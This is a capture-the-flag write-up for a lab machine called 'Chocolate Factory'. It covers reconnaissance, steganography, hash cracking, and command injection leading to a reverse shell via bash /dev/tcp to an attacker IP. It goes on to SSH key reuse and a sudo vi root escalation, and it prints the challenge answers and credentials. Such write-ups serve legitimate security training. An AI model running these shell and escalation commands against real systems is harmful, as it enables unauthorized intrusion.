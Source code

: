 # CHOCOLATE FACTORY

---------------------
## IP: `10.10.239.116`<br />

---------------------
##### Open Ports Via Nmap -

`nmap -sC -sV -oN nmap/initial 10.10.239.116`<br />

![image](images/nmap.png)

```
21
22
80
100
106
109
110
111
113
119
125
```

-----------------------
##### We saw `anonymous` ftp login is enabled -<br />

![image](images/anonFTP.png)

> we get a jpg file<br />

![image](images/ftp.png)

> we can extract hidden data inside this image using steghide:<br />

Leave the passphrase field empty (:<br />

`steghide extract -sf gum_room.jpg`<br />

> We get a `base-64` encoded txt file<br />

To decode it we can do-<br />

`cat b64.txt | base64 -d > decodedB64`<br />

![image](images/charlieHash.png)

Yay we get charlie user's hash, we can crack it using john/hashcat<br />

First, store the hash inside a file:<br />

`echo '$6$CZJnCPeQWp9/jpNx$khGlFdICJnr8R3JC/jTR2r7DrbFLp8zq8469d3c0.zuKN4se61FObwWGxcHZqO2RJHkkL1jjPYeeGyIJWE82X/' > charlieHASH`<br />

```
john charlieHASH --w=/usr/share/wordlists/rockyou.txt
```

![image](images/john.png)

> We got the charlie's pass - <br />

```
cn7824
```

But we can't login via ssh with these creds, now i did a gobuster scan to find subdirectories (:<br />

`gobuster dir -u http://10.10.239.116 -w /usr/share/dirbuster/directory-list-2.3-medium.txt -x txt,php,html -t 30 | tee gobuster.log`<br />

We get the following results-<br />

![image](images/gobuster.png)

```
/home.php
/index.html
```

-------------------
> Now there is a bit of a hoax and i don't know the why the owner did this?! lol<br />

1. If we navigate to `http://10.10.239.116/index.html`, we can see a login form. We can login via charlie creds.<br />

![image](images/index.png)

And we get redirected to `/home.php` and there's a command injection form, and we can execute and see results for commands like `id`, `whoami`, ...<br />

![image](images/home.png)

2. Or we can straight-forward navigate to `/home.php` and access that page, right!<br />

3. Never mind, let's get our rev-shell-<br />

`bash -c 'exec bash -i &>/dev/tcp/10.8.91.66/8888 <&1'`<br />

![image](images/www.png)

4. Let's stabilize our shell-<br />

`python3 -c 'import pty;pty.spawn("/bin/bash")'`<br />

`export TERM=xterm`<br />

`^Z` (ctrl+z)<br />

To put the process in background<br />

`stty raw -echo;fg`<br />

To foreground the process<br />

--------------------
##### Task 2 - Challenges <br />

1. Enter the key you found!<br />

> We can found the key in /var/www/html<br /> 

`cat key_rev_key`<br />

![image](images/key.png)

```
b'-VkgXhFf6sAEcAwrC6YR-SZbiuSb8ABXeQuvhcGSQzY='
```

2. What is Charlie's password?<br />

```
cn7824
```

3. change user to charlie<br />

> We already checked that charlie's cracked hash wasn't the pass for ssh<br />

So we can directly `cd /home/charlie` from `www-data` user <br />

Here we will find user's ssh private key `teleport`, copy it in you machine and login via ssh<br />

![image](images/teleport.png)

We can login without the need for pass now, cuz we got charlie's ssh private key <br />

But after copy/pasting the private key to our machine, we need to give it read and write permisssions:<br />

`chmod 600 teleport`<br />

`ssh -i teleport charlie@10.10.239.116`<br />

4. Enter the user flag<br />

```
flag{cd..............................}
```

-------------------
##### Privilege Escalation Of User `charlie`: <br />

> First, we try checking sudo abilities of the user, by doing-<br />

`sudo -l`<br />

![image](images/sudo.png)

We found `/usr/bin/vi`, cool we can go-ahead and check [GTFO-BIN](https://gtfobins.github.io/gtfobins/vi/#sudo) for vi-<br />

![image](images/gtfo.png)

`sudo vi -c ':!/bin/sh' /dev/null`<br />


Ay, we are root `#` let's get our root flag<br />

`cd /root`<br />

We see a python script `root.py`, hmm<br />

> Let's cat that script and see what's inside it-<br />

![image](images/script.png)

Okay, it needs a key and we found a key in `/var/www/html`

> Let's run the python script-<br />

`python root.py`<br />

Enter the key we found...<br />

AY, we got our last flag, let's paste it and complete our challenge `<3`<br />

![image](images/complete.png)

5. Enter the root flag<br />

```
flag{ce..............................}
```


Congratulations Friend For Making It Up To Here<br />
h00dy<br />
